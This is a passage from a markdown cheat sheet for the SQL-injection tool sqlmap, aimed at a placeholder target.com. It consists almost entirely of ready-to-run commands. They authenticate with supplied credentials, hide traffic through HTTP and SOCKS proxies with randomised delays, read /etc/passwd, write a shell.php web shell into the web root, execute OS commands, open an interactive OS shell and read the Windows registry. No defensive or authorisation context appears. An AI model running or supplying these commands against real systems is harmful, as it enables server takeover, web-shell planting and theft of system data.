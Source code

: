 ### 2. Authentication Bypass
```bash
# HTTP Basic authentication
sqlmap -u "http://target.com/page.php?id=1" --auth-type=basic --auth-cred="user:pass"

# HTTP Digest authentication
sqlmap -u "http://target.com/page.php?id=1" --auth-type=digest --auth-cred="user:pass"

# Custom authentication headers
sqlmap -u "http://target.com/page.php?id=1" --headers="Authorization: Bearer token123"
```

### 3. Proxy and Traffic Control
```bash
# Use HTTP proxy
sqlmap -u "http://target.com/page.php?id=1" --proxy="http://127.0.0.1:8080"

# Use SOCKS proxy
sqlmap -u "http://target.com/page.php?id=1" --proxy="socks5://127.0.0.1:9050"

# Ignore SSL errors
sqlmap -u "https://target.com/page.php?id=1" --ignore-ssl-errors

# Add delays between requests
sqlmap -u "http://target.com/page.php?id=1" --delay=2

# Randomize delays
sqlmap -u "http://target.com/page.php?id=1" --delay=1-3
```

### 4. File System Access
```bash
# Read files from server
sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/passwd"

# Write files to server
sqlmap -u "http://target.com/page.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"

# List database files
sqlmap -u "http://target.com/page.php?id=1" --file-list
```

### 5. Operating System Access
```bash
# Execute system commands
sqlmap -u "http://target.com/page.php?id=1" --os-cmd="whoami"

# Interactive OS shell
sqlmap -u "http://target.com/page.php?id=1" --os-shell

# Get registry values (Windows)
sqlmap -u "http://target.com/page.php?id=1" --reg-read --reg-key="HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion"
```

---